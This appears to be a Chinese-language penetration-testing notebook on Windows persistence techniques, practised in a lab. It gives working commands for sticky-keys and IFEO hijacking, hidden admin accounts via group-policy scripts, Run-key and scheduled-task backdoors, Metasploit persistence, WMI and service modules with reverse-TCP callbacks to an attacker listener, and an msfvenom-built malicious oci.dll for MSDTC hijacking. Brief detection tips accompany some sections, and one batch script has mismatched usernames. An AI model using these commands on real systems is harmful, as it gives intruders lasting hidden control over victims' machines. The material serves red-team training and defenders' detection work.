

# 权限维持 - Windows

## 辅助功能镜像劫持

辅助功能不用登陆也可以使用，在登陆页面右下角就可以进行使用

屏幕键盘： `C:\Windows\System32\osk.exe`

放大镜： `C:\Windows\System32\Magnify.exe`

旁白： `C:\Windows\System32\Narrator.exe`

显示切换器 `C:\Windows\System32\DisplaySwitch.exe`

应用切换器： `C:\Windows\System32\AtBroker.exe`

粘滞键：`Sethc.exe`

在`2003`、`XP`中只需要直接替换二进制文件即可

```bash
copy c:\windows\system32\sethc.ex c:\windows\system32\sethc1.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

高本版使用IFEO（Image File Execution Options 镜像劫持）

例如将放大镜改为CMD

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

然后进入到锁屏页面，右下角点击放大镜即可运行CMD



如何排查：检查`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\` 中奇怪的东西即可，默认都是不设置`Debugger` 值的

## 文件层面

### attrib

`Attrib +s +a +h +r`

s：设置系统属性（System） a：设置存档属性（Archive） h：设置隐藏属性（Hidden）

r：设置只读属性（Read-only）

```bash
C:\>dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 C65C-513E

 C:\ 的目录

2025/03/28  22:15    <DIR>          hide
2025/03/28  22:02    <DIR>          Program Files
2025/01/20  12:59    <DIR>          Program Files (x86)
2024/12/15  14:30    <DIR>          Users
2025/03/25  23:55    <DIR>          Windows
               2 个文件        178,464 字节
              5 个目录 12,261,384,192 可用字节

C:\>attrib +s +r +a +h C:\hide

C:\>dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 C65C-513E

 C:\ 的目录

2025/03/28  22:02    <DIR>          Program Files
2025/01/20  12:59    <DIR>          Program Files (x86)
2024/12/15  14:30    <DIR>          Users
2025/03/25  23:55    <DIR>          Windows
               2 个文件        178,464 字节
              4 个目录 12,261,556,224 可用字节
```

虽然看不见，但还是可以进去的

### 系统文件隐藏

我的电脑.{20D04FE0-3AEA-1069-A2D8-08002B30309D}

回收站.{645ff040-5081-101b-9f08-00aa002f954e}

拔号网络.{992CFFA0-F557-101A-88EC-00DD010CCC48}

打印机.{2227a280-3aea-1069-a2de-08002b30309d}

控制面板.{21ec2020-3aea-1069-a2dd-08002b30309d}

网上邻居.{208D2C60-3AEA-1069-A2D7-08002B30309D}

将文件重命名为其中的一个，双击点入是进入我的电脑，访问不了里面的文件，重命名别的就可以访问了，或者在命令行访问


## 组策略

组策略后门更加隐蔽，在 `gpedit.msc` 中，可以在计算机完成对应操作时自动执行

首先创建`xxx.bat`文件，创建机器用户`test$` 并将其添加到`administrators`组内

```bash
echo off
net user test$ 1234 /add
net localgroup administrators lingx5$ /add
exit
```

打开组策略 `gpedit.msc` ，随意选择一个添加


这里放在关机里面


进行关机操作后启动机器（挺明显的）


## 注册表

### 手动添加

一些常用路径

| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run | 开机自启 | 每次登录 |
| --- | --- | --- |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce | 开机自启（一次） | 登陆时，执行后删除 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices | 开机运行（旧版 Windows 有效） | 系统启动时（比 `Run` 早） |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce | 开机运行（仅执行一次） | 系统启动时，执行后删除 |

例如开启自动运行木马

```bash
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v ReverseShell /t REG_SZ /d "C:\Users\administrator\test.exe"
```

### Logon script

Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截

注册表位置：`HKEY_CURRENT_USER\Environment`


### MSF - persistence

```bash
meterpreter > bg                                                                                                                                                                                                                    
[*] Backgrounding session 6...                                                                                                                                                                                                      
msf6 exploit(multi/handler) > use exploit/windows/local/persistence                                                                                                                                                                 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp                                                                                                                                                            
msf6 exploit(windows/local/persistence) > set session 6
session => 6
msf6 exploit(windows/local/persistence) > set lport 4443
lport => 4443
msf6 exploit(windows/local/persistence) > set lhost 192.168.111.162
lhost => 192.168.111.162
msf6 exploit(windows/local/persistence) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence) > run

[*] Running persistent module against DESKTOP-CP35IDM via session ID: 6
[+] Persistent VBS script written on DESKTOP-CP35IDM to C:\Users\ADMINI~1\AppData\Local\Temp\nPojNkOt.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\syBjjTDVVC
[+] Installed autorun on DESKTOP-CP35IDM as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\syBjjTDVVC
[*] Clean up Meterpreter RC file: /root/.msf4/logs/persistence/DESKTOP-CP35IDM_20250328.2331/DESKTOP-CP35IDM_20250328.2331.rc
```

需要拿到会话，并且得做好免杀


### MSF - presistence_exe

```bash
meterpreter > background         
[*] Backgrounding session 1... 
msf6 exploit(multi/handler) > use post/windows/manage/persistence_exe
msf6 post(windows/manage/persistence_exe) > set session 1
session => 1
msf6 post(windows/manage/persistence_exe) > set rexepath /opt/win_exp/win_exp.exe
rexepath => /opt/win_exp/win_exp.exe
msf6 post(windows/manage/persistence_exe) > set rexename shell.exe
rexename => shell.exe
msf6 post(windows/manage/persistence_exe) > run

[*] Running module against DESKTOP-906JKQ3
[*] Reading Payload from file /opt/win_exp/win_exp.exe
[+] Persistent Script written to C:\Users\lingx5\AppData\Local\Temp\shell.exe
[*] Executing script C:\Users\lingx5\AppData\Local\Temp\shell.exe
[+] Agent executed with PID 2076
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\dJggfAUjDAS
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\dJggfAUjDAS
[*] Cleanup Meterpreter RC File: /home/kali/.msf4/logs/persistence/DESKTOP-906JKQ3_20240827.0058/DESKTOP-906JKQ3_20240827.0058.rc
[*] Post module execution completed
msf6 post(windows/manage/persistence_exe) > 
```

这个可以将做好免杀的后门程序上传到靶机并且写入注册表

### MSF - WMI 持久化

使用该模块需要拿到`administrator`权限

```bash
msf6 exploit(windows/local/persistence) > use exploit/windows/local/wmi_persistence 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/wmi_persistence) > options

Module options (exploit/windows/local/wmi_persistence):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   CALLBACK_INTERVAL   1800000          yes       Time between callbacks (In milliseconds). (Default: 1800000).
   CLASSNAME           UPDATER          yes       WMI event class name. (Default: UPDATER)
   EVENT_ID_TRIGGER    4625             yes       Event ID to trigger the payload. (Default: 4625)
   PERSISTENCE_METHOD  EVENT            yes       Method to trigger the payload. (Accepted: EVENT, INTERVAL, LOGON, PROCESS, WAITFOR)
   PROCESS_TRIGGER     CALC.EXE         yes       The process name to trigger the payload. (Default: CALC.EXE)
   SESSION                              yes       The session to run this module on
   USERNAME_TRIGGER    BOB              yes       The username to trigger the payload. (Default: BOB)
   WAITFOR_TRIGGER     CALL             yes       The word to trigger the payload. (Default: CALL)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.111.162  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

参数介绍（来自于：https://www.cnblogs.com/LINGX5/p/18383342#c-wmi-%E6%8C%81%E4%B9%85%E5%8C%96）

1. **`CALLBACK_INTERVAL`**: 指定回调的间隔时间，单位是毫秒。默认为 1800000 毫秒（30 分钟），表示每 30 分钟触发一次持久化的 Payload。
2. **`CLASSNAME`**: WMI 事件类的名称。这个名称在目标系统中用于标识该持久化任务。默认为 `UPDATER`，你可以更改为其他不引人注意的名称。
3. **`EVENT_ID_TRIGGER`**: 指定哪个事件 ID 触发 Payload。默认是 `4625`，这是 Windows 日志中常见的登录失败事件。你可以根据需求修改为其他事件 ID（如成功登录的事件 ID `4624`）来更灵活地触发 Payload。
4. **`PERSISTENCE_METHOD`**: 选择持久化的触发方法。以下是几种可用的触发方法：
    - **`EVENT`**: 基于事件 ID 触发（如登录失败事件）。
    - **`INTERVAL`**: 定期触发（基于 `CALLBACK_INTERVAL`）。
    - **`LOGON`**: 当用户登录时触发。
    - **`PROCESS`**: 当指定的进程启动时触发（如 `calc.exe`）。
    - **`WAITFOR`**: 当系统等待某个特定的关键词时触发。
5. **`PROCESS_TRIGGER`**: 只有在 `PERSISTENCE_METHOD` 设置为 `PROCESS` 时有效，指定要监控的进程名称。当这个进程启动时，Payload 会被触发。默认是 `CALC.EXE`，你可以更改为你希望监控的其他合法进程。
6. **`SESSION`**: 你要在其上运行该模块的目标会话（session ID）。这个参数必须设置。
7. **`USERNAME_TRIGGER`**: 只有在 `PERSISTENCE_METHOD` 设置为 `LOGON` 时有效，指定哪个用户名登录时触发 Payload。默认是 `BOB`，你可以更改为目标系统中的实际用户名。
8. **`WAITFOR_TRIGGER`**: 只有在 `PERSISTENCE_METHOD` 设置为 `WAITFOR` 时有效，指定触发 Payload 的关键词。默认是 `CALL`。

**Payload 选项 (`windows/x64/meterpreter/reverse_tcp`)**

1. **`EXITFUNC`**: 指定退出的方式：
    - **`process`**: 默认选项，退出时结束当前进程。
    - **`seh`**: 使用结构化异常处理 (SEH) 机制退出。
    - **`thread`**: 退出时只结束当前线程。
    - **`none`**: 不采取任何退出动作。
2. **`LHOST`**: 你的攻击机的监听地址（IP）。这是目标系统回连的地址，通常是你的本地 IP 或 VPS IP。
3. **`LPORT`**: 你的攻击机的监听端口。目标系统回连时会连接到这个端口。
4. **`DisablePayloadHandler`**: 如果设置为 `True`，Metasploit 不会自动启动 Payload 的监听（Handler）。这通常用于在已经运行其他监听器时避免冲突。

例如：还可以多设置用户名，默认是`BOB` ，看你获得了什么用户的凭据

```bash
msf6 exploit(windows/local/wmi_persistence) > use exploit/windows/local/wmi_persistence
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/wmi_persistence) > set session 6
session => 6
msf6 exploit(windows/local/wmi_persistence) > set persistence_method EVENT
persistence_method => EVENT
msf6 exploit(windows/local/wmi_persistence) > set event_id_trigger 4624
event_id_trigger => 4624
msf6 exploit(windows/local/wmi_persistence) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/wmi_persistence) > set lhost 192.168.111.162
lhost => 192.168.111.162
smsf6 exploit(windows/local/wmi_persistence) > set lport 4443
lport => 4443
msf6 exploit(windows/local/wmi_persistence) > run

[*] Installing Persistence...
[+]  - Bytes remaining: 14292
[+]  - Bytes remaining: 6292
[+] Payload successfully staged.
[+] Persistence installed! Call a shell using "smbclient \\\\192.168.111.154\\C$ -U BOB <arbitrary password>"
[*] Clean up Meterpreter RC file: /root/.msf4/logs/wmi_persistence/192.168.111.154_20250328.3245/192.168.111.154_20250328.3245.rc
```

查看持久化事件（排查）

```bash
Get-WMIObject -Namespace root\subscription -Class __EventFilter
```


### MSF - 新建用户

该模块可以创建一个隐藏性质的用户

```bash
msf6 post(linux/manage/adduser) > use post/windows/manage/add_user 
msf6 post(windows/manage/add_user) > options

Module options (post/windows/manage/add_user):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   ADDTODOMAIN  true             yes       Add to Domain if true, otherwise add locally
   ADDTOGROUP   false            yes       Add group if it does not exist
   GROUP                         no        Add user into group, creating it if necessary
   PASSWORD                      no        Password of the user
   SESSION                       yes       The session to run this module on
   TOKEN                         no        Username or PID of the token which will be used (if blank, Domain
                                           Admin tokens will be enumerated)
   USERNAME                      yes       The username of the user to add (not-qualified, e.g. BOB)

View the full module info with the info, or info -d command.

msf6 post(windows/manage/add_user) > set group administrators
group => administrators
msf6 post(windows/manage/add_user) > set password 123456qwe
password => 123456qwe
msf6 post(windows/manage/add_user) > set session 2
session => 2
msf6 post(windows/manage/add_user) > set username daddy
username => daddy
msf6 post(windows/manage/add_user) > set addtogroup true 
addtogroup => true
msf6 post(windows/manage/add_user) > set addtodomain false
addtodomain => false
msf6 post(windows/manage/add_user) > run

[*] Running module on 'DESKTOP-CP35IDM'
[*] Local Mode
[+] User 'daddy' was added.
[*] The local group already exists.
[+] 'daddy' is now a member of the 'administrators' group.
[*] Post module execution completed
```

但我看不出来哪里隐藏了


### MSF - 创建服务

创建新的服务达到权限维持的效果

```bash
msf6 post(windows/manage/add_user) > use exploit/windows/local/persistence_service 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > set session 2
session => 2
msf6 exploit(windows/local/persistence_service) > run

[*] Started reverse TCP handler on 192.168.111.162:4444 
[*] Running module against DESKTOP-CP35IDM
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\UDUVT.exe
[*] Creating service vNdXXvxN
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/DESKTOP-CP35IDM_20250328.3326/DESKTOP-CP35IDM_20250328.3326.rc
[*] Sending stage (177734 bytes) to 192.168.111.154
[*] Meterpreter session 3 opened (192.168.111.162:4444 -> 192.168.111.154:50654) at 2025-03-28 21:33:27 -0400
```

排查：

通过命令行

```bash
C:\Users\Administrator>sc query state= all

<所有服务>

C:\Users\Administrator>sc qc vNdXXvxN
[SC] QueryServiceConfig 成功

SERVICE_NAME: vNdXXvxN
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Users\ADMINI~1\AppData\Local\Temp\UDUVT.exe" oXufaqbK
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : TsqFKshdlBHqcNo
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

在GUI中名称会显示的不一样，但也是乱的，很容易辨别


## 计划任务

在Windows中的计划任务是通过 `schtasks.exe` ，Linux中是`crontab` 

`SCHTASKS` 是 Windows 中的一个内置命令行工具，可以用于创建、删除和管理计划任务

创建一个新任务；`tn`执行任务名；`tr`执行任务执行程序路径；`sc`为触发方法，现在执行系统登陆时运行；`tu`执行以什么用户执行

```bash
schtasks /create /tn "Windows Update Service" /tr "C:\windows\system32\shell.exe" /sc onlogon /ru "system"
```

常见触发条件：

- **`/sc minute`**: 每隔几分钟执行一次。
- **`/sc daily`**: 每天执行。
- **`/sc onstart`**: 在系统启动时执行。
- **`/sc onlogon`**: 在用户登录时执行。

排查：

命令行

```bash
// 列出所有计划
schtasks /query /fo LIST /v 
// 查看某个任务
schtasks /query /tn "Windows Update" /v
```

GUI


## 创建服务

如果未正确配置Windows环境中的服务或这些服务可以用作持久性方法，则这些服务可能导致权限提 升。创建一个新的服务需要管理员级别的特权，它已经不是隐蔽的持久性技术。

```bash
sc create ServiceName binPath= "C:\Path\To\Your\Backdoor.exe" start= auto
```

- `ServiceName`:自己定义一个比较隐蔽的服务名字。
- `binPath` ： 指定后门脚本存在路径
- `start` : 启动方式

排查：

通过`service.msc`找出奇怪的服务即可

## 劫持后门

### DLL 劫持

### MSDTC 劫持

msdtc.exe是一个并列事务，是分布于两个以上的数据库，消息队列，文件系统或其他事务保护资源管理器，删除要小心。

对应服务MSDTC，全称`Distributed Transaction Coordinator`，Windows系统默认启动该服务


当计算机加入域时，MSDTC 启动，会搜索注册表，并加载下面的路径下的三个DLL文件：**oci.dll**，**SQLLib80.dll**和**xa80.dll**

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDRM\MTxOCI
```

Windows 系统默认不包含 oci.dll ，我们自己写一个恶意的 **oci.dll** ，并将其放置在`%SystemRoot%\system32\`中。

**oci.dll** 就绪，使用远程作业命令杀死 MSDTC 服务（taskkill / im msdtc.exe / f），从而导致MSDTC重新加载自身。

创建恶意DLL文件

```bash
 ⚡ root@kali  ~/Desktop/test/test  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.111.162 lport=4443 -f dll -o oci.dll  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 9216 bytes
Saved as: oci.dll
```

上传到靶机的 `C:\Windows\System32` 目录下

```bash
meterpreter > upload ~/Desktop/test/test/oci.dll "C:\windows\system32\oci.dll"
[*] Uploading  : /root/Desktop/test/test/oci.dll -> C:\windows\system32\oci.dll
[*] Uploaded 9.00 KiB of 9.00 KiB (100.0%): /root/Desktop/test/test/oci.dll -> C:\windows\system32\oci.dll
[*] Completed  : /root/Desktop/test/test/oci.dll -> C:\windows\system32\oci.dll
```

```bash
C:\Windows\System32>taskkill /f /im msdtc.exe
taskkill /f /im msdtc.exe
SUCCESS: The process "msdtc.exe" with PID 2736 has been terminated.

C:\Windows\System32>net start msdtc
net start msdtc
The requested service has already been started.

More help is available by typing NET HELPMSG 2182.
```

（这里复现有问题）可以参考文章：https://blog.csdn.net/weixin_44747030/article/details/127136541

## 域环境

黄金票据 & 白银票据

## 其他

https://xz.aliyun.com/news/9178

https://www.cnblogs.com/LINGX5/p/18383342